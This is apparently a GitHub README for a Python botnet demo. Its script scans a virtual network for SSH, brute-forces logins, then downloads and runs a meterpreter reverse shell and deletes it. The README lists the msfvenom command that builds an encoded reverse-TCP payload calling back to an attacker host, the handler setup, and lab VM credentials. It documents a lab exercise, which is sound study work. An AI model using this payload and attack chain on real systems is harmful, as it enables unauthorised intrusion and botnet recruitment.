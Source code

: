 # simple_bot:
Demonstration of a simple botnet written in Python.<br>
<br>
"scan_drop.py" file scans virtual network. If it finds a node with ssh<br>
service it then performs a dictionary attack. If successful, script will<br>
attmept to download a meterpreter reverse shell payload and execute it, then delete<br>
it. Multiprocessing allows for multiple targets to connect to our handler<br>
at once.<br>
<br>
<h3>Environment & Setup</h3>
1. Our Attack machine: <h4>Linux kali 4.16.0-kali2-amd64</h4>
2. Create payload: <h4>msfvenom --payload linux/x86/meterpreter_reverse_tcp LPORT=443 LHOST=192.168.203.1 -e shikata_ga_nai -f elf -a x86 -o evil_file</h4>
3. Create Web Server & host payload: <h4>192.168.203.1/evil_file</h4>
4. Create 4 target VMs. All with ssh servers on the same virtual network: <h4>ubuntu-16.04.5-desktop-amd64</h4>
&nbsp;&nbsp;&nbsp;192.168.203.150&nbsp;&nbsp;user: fresh1 &nbsp;pass: fresh1<br>
&nbsp;&nbsp;&nbsp;192.168.203.151&nbsp;&nbsp;user: fresh2 &nbsp;pass: fresh2<br>
&nbsp;&nbsp;&nbsp;192.168.203.152&nbsp;&nbsp;user: fresh3 &nbsp;pass: fresh3<br>
&nbsp;&nbsp;&nbsp;192.168.203.153&nbsp;&nbsp;user: fresh4 &nbsp;pass: fresh4<br>
<br>
5. msf5 > <h4>exploit/multi/handler module</h4>
6. Run scan_drop.py <h4>Scan, Dictionary Attack, RCE. </h4>
